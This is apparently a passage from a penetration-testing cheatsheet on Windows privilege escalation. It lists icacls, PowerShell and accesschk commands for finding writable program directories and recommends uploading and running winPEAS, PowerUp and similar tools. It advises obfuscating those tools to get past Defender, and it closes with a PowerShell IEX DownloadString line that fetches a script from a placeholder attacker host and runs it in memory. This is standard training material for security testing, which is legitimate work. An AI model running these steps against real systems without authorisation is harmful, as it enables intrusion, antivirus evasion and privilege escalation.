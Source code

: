 But you can of course also check the directory permissions with icacls or accesschk.exe.


```powershell
# Search for writable locations
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
```

```powershell
# Search for writable locations via powershell
ps> Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}}
ps> Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
```

```powershell
# accesschk (Sysinternals)
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
accesschk.exe /accepteula -uwcqv "Everyone" *
accesschk.exe /accepteula -uwcqv "Users" *
```

Also check **Web Server and FTP server directories**. 

If there is some way to upload files via FTP, HTTP or SMB, then you might wanna try that and see if you can execute files uploaded that way.


## Enum Scripts and Tools 

* See the Windows Enum Scripts cheatsheet
* See the [File Transfer cheatsheet](../file_transfers.md)

Now that you found a writable directory you should transfer and run automatic enum scripts like **Winpeas**, **Powerup**, **JAWS**, **Sherlock**, or **Seatbelt**.

Quite a few of these get picked up by Defender and friends, so you might have to create obfuscated versions.

```powershell
# It's a C# binary (doesn't work on old windows versions)
.\winpeas.exe

# bat version (no pretty colors)
.\winpeas.bat
```

Some of these can be run in-memory-only via powershell, if you did not find any writable directory or cannot execute anything directly this is what you want to do. Sadly this does not protect you from getting picked up by Defender anymore thanks to AMSI.

```powershell
ps> IEX (New-Object Net.WebClient).DownloadString('http://<your-ip>/Invoke-SomeScript.ps1'); Invoke-SomeFunctionFromScript
```
